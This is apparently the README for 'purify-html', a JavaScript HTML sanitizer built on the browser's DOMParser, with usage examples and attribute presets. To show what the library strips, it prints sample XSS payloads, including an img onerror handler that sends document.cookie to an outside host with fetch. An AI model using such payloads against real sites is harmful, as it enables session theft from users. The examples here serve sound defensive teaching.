 # purify-html

![size](https://img.shields.io/github/languages/code-size/Aleksandr-JS-Developer/purify-html?style=flat-square)
![](https://badgen.net/bundlephobia/minzip/purify-html?style=flat-square)
![GitHub issues](https://img.shields.io/github/issues-raw/Aleksandr-JS-Developer/purify-html?style=flat-square)
![GitHub closed issues](https://img.shields.io/github/issues-closed-raw/Aleksandr-JS-Developer/purify-html?style=flat-square)

A minimalist client library for cleaning up strings so they can be safely used as HTML.

The main idea is to use the browser API to parse and modify the DOM.

The basic idea is to use the browser API to parse and modify the DOM.
Thus, several goals are achieved at once:

- Actual native parser. The library uses the HTML parser that the browser will use to parse the HTML. Thus, there will be no situation when the payload will work in the browser, but does not work in the parser that the library uses.
- Huge bundle size savings. Since the HTML standard is quite extensive, a quality parser is a rather heavy program that can be easily dispensed with.
- Speed of work. The parser inside DOMParser is native, i.e. written not in JavaScript, but in high-performance C++ (for example, in v8). Thus, parsing is faster than any JavaScript library.
- High % browser support. Although DOMParser has extensive support, you can use a polyfill or even your own parser. See [parserSetup](#setparser) for details.

As a result, parsing with DOMParser is more reliable, faster and does not require precious kilobytes of space in the build.

---

## Install

npm

```bash
npm install purify-html
```

yarn

```bash
yarn add purify-html
```

CDN

```html
<script src="https://unpkg.com/purify-html@latest/dist/index.browser.js"></script>
```

---

## Usage

**via bundler:**

```javascript
import PurifyHTML from 'purify-html';

const allowedTags = [
  // only string
  'hr',

  // as object
  { name: 'br' },

  // attributes check
  { name: 'b', attributes: ['class'] },

  // advanced attributes check
  { name: 'p', attributes: [{ name: 'class' }] },

  // check attributes values (string)
  { name: 'strong', attributes: [{ name: 'id', value: 'awesome-strong-id' }] },

  // check attributes values (RegExp)
  { name: 'em', attributes: [{ name: 'id', value: /awesome-em-id?s/ }] },

  // check attributes values (array of strings)
  {
    name: 'em',
    attributes: [
      { name: 'id', value: ['awesome-strong-id', 'other-awesome-strong-id'] },
    ],
  },

  // use attributes checks preset
  {
    name: 'a',
    attributes: [{ name: 'href', value: { preset: '%https-link%' } }],
  },
];

const sanitizer = new PurifyHTML(allowedTags);

const dangerString = `
  <script> fetch('google.com', { mode: 'no-cors' }) </script>

  <<div></div>img src="1" onerror="alert(1)">
  <img src="1" onerror="alert(1)">

  <b>Bold</b>
  <b class="red">Bold</b>
  <b class="red" onclick="alert(1)">Bold</b>
  <p data-some="123" data-some-else="321">123</p>
  <div></div>
  <hr>
`;

const safeString = sanitizer.sanitize(dangerString);

console.log(safeString);

/*
  &lt;img src="1" onerror="alert(1)"&gt;
  

  <b>Bold</b>
  <b class="red">Bold</b>
  <b class="red">Bold</b>
  <p data-some="123">123</p>
  
  <hr>
*/
```

[Try it](https://codesandbox.io/s/lucid-mclean-6ere1w?file=/src/exampleFromReadme.js).

### Via CDN

```html
<!-- ... -->
<head>
  <!-- ... -->
  <script src="https://unpkg.com/purify-html@latest/dist/index.browser.js"></script>
</head>

<!-- ... -->
<script>
  PurifyHTML.setParser(/* ... */);
  const sanitizer = new PurifyHTML.sanitizer(/* ... */);

  sanitizer.sanitize(/* ... */);
</script>
<!-- ... -->
```

Usage for the browser is slightly different from usage with faucets. This is bad, but it had to be done in order not to clog the global scope.

---

## setParser

In some cases, you may want to be able to use your parser instead of DOMParser.

This can be done like this:

```javascript
import PurifyHTML, { setParser } from 'purify-html';

setParser({
  parse(HTMLString:string):HTMLElement {
    // ...
  },
  stringify(element:HTMLElement):string {
    // ...
  },
});

const sanitizer = new PurifyHTML();
// ...
```
---
## Why not ```document.createElement(...)```

Because by processing the string like this:
```javascript
const parse = (str) => {
  const node = document.createElement('div');
  div.innerHTML = str;
  
  return div;
}
```

In fact, this function, having received a special payload, will RUN it. The following payload will send a network request:
`<img/src/onerror="fetch('www.site.com?q='+encodeURI(document.cookie))">`

And in the case of using DOMParser, the code does not run.

---

## Attributes checks preset list

- `%correct-link%` - only currect link
- `%http-link%` - only http link
- `%https-link%` - only https link
- `%ftp-link%` - only ftp link
- `%https-link-without-search-params%` - delete all search params and force https protocol
- `%http-link-without-search-params%` - delete all search params and force https protocol
- `%same-https-origin%` - only link that lead to the same origin that is currently in `self.location.origin`. + force https protocol
- `%same-http-origin%` - only link that lead to the same origin that is currently in `self.location.origin`. + force http protocol

---

## Browser support

Although browser support is already over 97%, the specification for DOMParser is not yet fully established. [More details](https://caniuse.com/mdn-api_domparser_parsefromstring_html).
